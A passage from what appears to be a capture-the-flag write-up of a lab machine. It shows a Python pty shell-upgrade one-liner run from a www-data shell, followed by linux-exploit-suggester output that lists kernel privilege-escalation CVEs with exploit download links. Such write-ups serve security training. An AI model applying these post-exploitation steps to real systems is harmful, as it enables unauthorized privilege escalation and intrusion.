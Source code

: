 ![](https://cdn-images-1.medium.com/max/1000/1*0rBzf6vwduDRypZDPNF4UA.png)


Now we can get the user flag!

![](https://cdn-images-1.medium.com/max/1000/1*HKEG1VmC4zUukGrXrwrgFg.png)


“One of my go-to commands after catching a dumb shell is to use Python to spawn a pty. The [pty module](https://docs.python.org/2/library/pty.html) let’s you spawn a psuedo-terminal that can fool commands like `su` into thinking they are being executed in a proper terminal. To upgrade a dumb shell, simply run the following command”


    python3 -c 'import pty; pty.spawn("/bin/bash")'

I uploaded linux-exploit-suggester to the system to check for possible privilege escalation exploits.


    www-data@apocalyst:/tmp$ ./linux-exploit-suggester.sh
    ./linux-exploit-suggester.sh
    Kernel version: 4.4.0
    Architecture: x86_64
    Distribution: ubuntu
    Package list: from current OS
    Possible Exploits:
    [+] [CVE-2015–3290] espfix64_NMI
     Details: http://www.openwall.com/lists/oss-security/2015/08/04/8
     Download URL: https://www.exploit-db.com/download/37722
    [+] [CVE-2016–0728] keyring
    Details: http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/
    Download URL: https://www.exploit-db.com/download/40003
    Comments: Exploit takes about ~30 minutes to run
    [+] [CVE-2016–2384] usb-midi
    Details: https://xairy.github.io/blog/2016/cve-2016-2384
    Tags: ubuntu=14.04,fedora=22
    Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c
    Comments: Requires ability to plug in a malicious USB device and to execute a malicious binary as a non-privileged user
    [+] [N/A] target_offset
    Details: https://www.exploit-db.com/exploits/40049/
    Tags: ubuntu=16.04(kernel:4.4.0–21)
    Download URL: https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/40053.zip
    Comments: ip_tables.ko needs to be loaded
    [+] [CVE-2016–4557] double-fdput()
    Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=808
    Tags: ubuntu=16.04(kernel:4.4.0–62)
    Download URL: https://bugs.chromium.org/p/project-zero/issues/attachment?aid=232552
    Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
    [+] [CVE-2016–5195] dirtycow
    Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
    Tags: RHEL=5|6|7,debian=7|8,ubuntu=16.10|16.04|14.04|12.04
    Download URL: https://www.exploit-db.com/download/40611
    [+] [CVE-2016–5195] dirtycow 2
    Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
    Tags: RHEL=5|6|7,debian=7|8,ubuntu=16.10|16.04|14.04|12.04
    Download URL: https://www.exploit-db.com/download/40616
    [+] [CVE-2016–8655] chocobo_root
    Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
    Tags: ubuntu=16.04|14.04
    Download URL: https://www.exploit-db.com/download/40871
    [+] [CVE-2016–9793] SO_{SND|RCV}BUFFORCEDetails: https://github.com/xairy/kernel-exploits/tree/master/CVE-2016-9793
    Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-9793/poc.c